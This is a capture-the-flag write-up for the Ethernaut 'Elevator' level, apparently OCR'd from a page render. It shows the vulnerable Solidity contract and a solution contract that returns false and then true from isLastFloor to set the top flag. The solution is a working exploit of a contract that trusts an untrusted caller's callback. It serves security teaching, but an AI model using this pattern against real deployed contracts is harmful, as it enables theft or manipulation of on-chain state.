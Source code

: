 > ```


<hr>

## 11 Elevator
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

To complete this level we have to return different values from a function to bypass the checks, first to we have to return `false` to pass the check `! building.isLastFloor(_floor)`, there after we have to return `true` to make the variable `top` to `true`.

> #### Solution:
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface ele {
>     function goTo(uint _floor) external;
> }
> 
> contract elevator {
>     ele e;
>     uint count;
> 
>     constructor(address _instance){
>         e = ele(_instance);
>     }
> 
>     function isLastFloor(uint _floor) public returns (bool){
>         if (count == 0){
>             count++;
>             return false;
>         }
>         return true;
>     }
> 
>     function callGoto() public{
>         uint _floor = 1;
>         e.goTo(_floor);
>     } 
> }